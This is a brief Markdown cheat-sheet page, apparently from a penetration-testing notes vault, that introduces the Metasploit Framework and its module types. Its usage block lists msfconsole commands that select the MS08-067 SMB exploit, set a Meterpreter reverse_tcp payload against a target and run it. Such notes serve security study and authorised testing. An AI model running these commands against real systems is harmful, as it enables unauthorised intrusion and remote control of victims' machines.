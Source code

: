 ```yaml
---
type: tool
phase:
  - "[[Exploitation]]"
  - "[[Post Exploitation]]"
order: "10"
tags:
  - tools
  - metasploit
---
```

# ⚔️ Metasploit Framework

## Description
A powerful framework for developing and executing exploit code against a remote target.

## Usage
```bash
# Open metasploit
msfconsole

# Search for exploits
search exploit windows/smb

# Use an exploit
use exploit/windows/smb/ms08_067_netapi

# Set variables
set RHOST <target>
set PAYLOAD windows/meterpreter/reverse_tcp

# Run exploit
exploit
```
## Modules
- Exploits
- Payloads
- Auxiliaries
- Post modules
## 🔗Related Phases
- [[Exploitation]]
- [[Post Exploitation]]
## Reference
- 🌐 https://docs.metasploit.com